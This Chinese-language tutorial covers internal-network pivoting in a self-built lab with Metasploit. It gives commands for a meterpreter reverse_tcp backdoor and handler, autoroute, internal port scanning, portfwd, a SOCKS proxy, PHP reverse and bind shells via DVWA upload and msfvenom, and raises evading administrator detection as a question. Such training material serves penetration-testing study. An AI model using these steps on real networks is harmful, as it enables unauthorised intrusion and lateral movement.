

# 内网漫游

## 一 网络拓扑介绍

网络使用飞塔的防火墙作为网络隔离的设备，其中：

```
 port1为WAN口，通过其进行外网的连接
 port2为LAN口，Kali主机位于此网段
 port3为LAN口，内网服务网段
 port4为LAN口，内网服务网段
```


通过防火墙的设置的策略如下：

```
仅允许port2网段内的主机上网
仅允许port2网段内172.16.0.10主机访问port3网段的主机
port3与port4可以互访
kali主机的IP为172.16.0.2(kali无法直接访问port3/4内的主机)
```


通过此环境模拟三层的网络，在正常的网络中，相对于较大型的网络而言，可能会更为复杂。


## 二 使用metasploit获取到立足点

使用脚本生成metasploit后门


将后门传至172.16.0.10上


metasploit启动监听：

```
msf6 > use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 172.16.0.2
set lport 4444
exploit
```


在目标主机中运行后门文件后，主机即上线至metasploit.


## 三 内网漫游

### 3.1 获取主机网络信息

```
run get_local_subnets
```


```
meterpreter > shell
ip a  || ifconfig || ipconfig （针对不同系统进行选择治理）
```


```
netstat -anltp
arp -a
```


### 3.2 建立路由信息

autoroute可以在已经获取的meterpreter shell的基础上添加一条去往“内网”的路由。

```
[*] Examples:
[*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
[*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
[*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
[*]   run autoroute -p                            # Print active routing table
[*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
```


建立去往172.16.1.0/24的路由信息。

```
run autoroute -s 172.16.1.0/255.255.255.0
```

使用-p参数显示路由信息。


```
run autoroute -s 172.16.1.0/24
```



使用-d -s删除路由信息


metasploit过去某个小版本中，对在meterpreter中直接运行autoroute的支持有一些问题，所以可以使用另外一种方式添加：

```
background
use post/multi/manage/autoroute
set ...
exploit
```


### 3.3 进行内网探测

```
search portscan
use auxiliary/scanner/portscan/tcp
set rhosts 172.16.1.0/24
set threads 100
set ports 22,80,3306
exploit
```


### 3.4 端口转发

在活动的meterpreter中，可通过portfwd进行端口转发

portfwd的参数:

```
Add：该参数用于创建转发。
Delete：这将从我们的转发端口列表中删除先前的条目。
List：这将列出当前转发的所有端口。
Flush：这将删除我们的转发列表中的所有端口。

-L：用于指定监听主机。 除非需要在特定网络适配器上进行转发，否则可以省略此选项。如果未输入任何值，则将使用0.0.0.0。
-h：显示以上信息。
-l：这是一个本地端口，它将在攻击机器上侦听。与此端口的连接将被转发到远程系统。
-p：TCP连接将转发到的端口。
-r：连接被中继到的IP地址（目标）
```

建立端口转发：

```
meterpreter > portfwd list
meterpreter > portfwd add -l 11180 -p 80 -r 172.16.1.5
meterpreter > portfwd add -l 13306 -p 3306 -r 172.16.1.5
meterpreter > portfwd add -l 11122 -p 22 -r 172.16.1.5
```


随后即可访问内网段中的资源（注意：此时要输入的目标IP地址为metasploit主机的IP，而非meterpreter主机的IP）

web类资源可直接通过浏览器输入IP:port即可


服务类资产则通过命令行进行连接即可。


### 3.5 建立代理服务器


```
use auxiliary/server/socks_proxy
exploit
```


将浏览器的代理地址指向msf的IP:1080,即可直接访问内网的资源。


如果是服务类的可以通过proxychains进行转发。


## 四 多层网络的应对

章节三的内容能够保证我们在一个二层的网络结构中转发网络流量，从而完成渗透测试的基础构建。

当遇到多层的网络时，则会失去一些目标的内容。

使用msf面对多层网络的情况时，可以将问题分解成两个部分：

```
1.获取到的其他网络主机的shell是否出网
2.内网漫游的设置
```

### 4.1 目标主机出网的机制

在目标主机可以访问互联网的情况下，可以直接通过反弹shell与msf进行连接。

在防火墙中增加一条规则：port3的主机可以随意访问port2的网段，从而模拟可以出网的情况。


随后利用二层网络的dvwa中的文件上传功能，上传phpshell即可反弹回shell。

```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lport 80
exploit
```


而后通过autoroute建立路由信息即可将流量传递至第三层。


### 4.2 目标主机不出网的机制

在目标主机可以无法访问互联网的情况下，可以直接通过Bindshell与msf进行连接。

去除掉port3-port2的访问规则后，则代表着二层网络中的主机无法与msf的主机直接通讯。

```
msfvenom -p php/meterpreter/bind_tcp  LPORT=4444 -f raw >bindshell.php
vi bindshell   <去除注释字符>
use exploit/multi/handler
set payload php/meterpreter/bind_tcp
set lport 80
set rhost 172.16.1.5
```


而后通过autoroute建立路由信息即可将流量传递至第三层。


ps:ssh_login的一些相关模块同样可用。


## 五 总结与思考

### 5.1 内网漫游的整体思路

```
1.获得立足点（前提条件）
2.搜集网络信息
3.autoroute/portfwd
4.socks_proxy
```

需要将各个分点的作用思考清晰。


### 5.2 思考

1.如果防止被管理员发现？

2.如果发现内网漫游？

3.应对大型网络怎么办？

4.内网中的哪些系统是关注点？

5.面对不出网的情况还有没有其他方案？


